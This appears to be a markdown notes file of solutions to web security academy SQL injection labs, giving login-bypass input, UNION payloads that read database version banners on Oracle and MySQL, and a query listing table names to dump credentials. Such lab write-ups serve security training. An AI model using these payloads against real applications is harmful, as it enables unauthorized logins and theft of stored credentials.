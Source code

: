 ## [LAB] SQL injection vulnerability allowing login bypass

Goal: Login as administrator

Solution:

```
Username: administrator'--
Password: anything, it doesnt matter
```

Reason:
The query simply selects everything from administrator and the password check is commented out with ``--``. 

# Discover Table Names, Column Names, Database Information

```
SELECT * FROM information_schema.tables  -> List Tables
```

## [LAB] SQL injection attack, querying the database type and version on Oracle

SOLUTION

```
https://ac5c1fbb1f0a7a0780281838006100f0.web-security-academy.net/filter?category=Gifts' UNION SELECT BANNER, NULL FROM v$version--
```

```
' UNION SELECT BANNER, NULL FROM v$version--
```

## [LAB] SQL injection attack, querying the database type and version on MySQL and Microsoft

SOLUTION

```
' UNION SELECT NULL,@@version-- -
```

## [LAB] SQL injection attack, listing the database contents on non-Oracle databases

Goal: Figure out table names, column names, and dump credentials. Login as administrator.

Solution:

Figure out how many columns. Once you do that, query information_schema.tables to get the table name.

```
' UNION SELECT null, TABLE_NAME FROM information_schema.tables--
```
